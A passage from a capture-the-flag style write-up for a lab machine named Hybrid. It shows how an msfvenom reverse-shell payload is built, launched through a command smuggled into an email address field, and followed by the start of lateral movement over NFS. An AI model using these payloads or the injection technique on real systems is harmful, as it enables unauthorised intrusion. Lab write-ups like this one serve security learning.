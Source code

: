 We can leverage this vulnerability to obtain a reverse shell. We create one using **msfvenom** and we place it in the **shared** folder previously mounted.

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=9001 -o shell -f elf
```
And, following the security report linked above, we adjust the PoC to execute the shell.

![alt text](/assets/Hybrid/Hybrid-RCE1.png)

```shell
admin&/opt/share/shell&@hybrid.vl
```

After saving we just need to mark as **junk** any email

![alt text](/assets/Hybrid/Hybrid-executeRCE.png)

If we have set up correctly the listener, we should receive a reverse shell as **www-data**

## Lateral movement to peter.turner

Inside the machine there is a user called **peter.turner** and we can also notice that this machine is domain joined. We can leverage again nfs to perform lateral movement:

![alt text](/assets/Hybrid/Hybrid-PeterUID.png)

We create a copy of **bash** inside the shared folder from the owned machine
```shell
cp /bin/bash .
```
